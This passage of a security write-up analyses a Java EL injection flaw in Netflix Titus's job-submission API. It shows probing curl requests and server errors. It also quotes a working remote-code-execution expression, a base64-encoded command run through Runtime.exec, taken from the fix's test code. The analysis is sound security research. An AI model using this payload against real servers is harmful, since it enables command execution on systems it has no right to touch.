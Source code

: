 ```
{"statusCode":400,"message":"Invalid Argument: {Validation failed: 'field: 'container.hardConstraints', description: 'Unrecognized constraints [abcdef]', type: 'HARD''}, {Validation failed: 'field: 'container.softConstraints', description: 'Unrecognized constraints [abcdef]', type: 'HARD''}, {Validation failed: 'field: 'container', description: 'Soft and hard constraints not unique. Shared constraints: [abcdef]', type: 'HARD''}"}
```
But with Java EL containing upper-case characters (`#{"abc".charAt(0)}`):

```
curl localhost:7001/api/v3/jobs \                                                                                                                                  master!?
  -X POST -H "Content-type: application/json" -d \
  '{
    "applicationName": "localtest",
    "owner": {"teamEmail": "me@me.com"},
    "container": {
      "image": {"name": "alpine", "tag": "latest"},
      "entryPoint": ["/bin/sleep", "1h"],
      "securityProfile": {"iamRole": "test-role", "securityGroups": ["sg-test"]},
      "softConstraints": {"constraints": {"#{\"abc\".charAt(0)}":"True"}},
      "hardConstraints": {"constraints": {"#{\"abc\".charAt(0)}":"True"}}
    },
    "batch": {
      "size": 1,
      "runtimeLimitSec": "3600",
      "retryPolicy":{"delayed": {"delayMs": "1000", "retries": 3}}
    }
  }'
```
```
{"statusCode":500,"message":"Unexpected error: HV000149: An exception occurred during message interpolation"}
```
So ultimately: the exploit Java EL expression needs to remain valid after toLowerCase transformation - at least in the context of SchedulingConstraintValidator.java

Since I was unfamiliar with Java EL exploitation I started reading up on it. And for better or worse, I decided to look at the fix so that I might better understand the bug. Well, the fix had the full exploit as part of the testing code:
https://github.com/Netflix/titus-control-plane/pull/795/files#diff-f8431485272230e3315d7917db699ee2R39

It is an elegent Java EL expression which depending on where it is evaluated (SchedulingConstraintValidator or SchedulingConstraintSetValidator), evaluates differently:
 `#{#this.class.name.substring(0,5) == 'com.g' ? 'FOO' : T(java.lang.Runtime).getRuntime().exec(new java.lang.String(T(java.util.Base64).getDecoder().decode('dG91Y2ggL3RtcC9wd25lZA=='))).class.name}"`

 Having looked at this, I could not come up with my own original exploit/primitive without being biased. For the sake of completeness of this write-up I will explain this exploit - and what the steps could've been followed to come up with it.

 The main creativity is the way based on the `this.class.name`, the resulting Java EL to be evaluated will be different in both contexts.
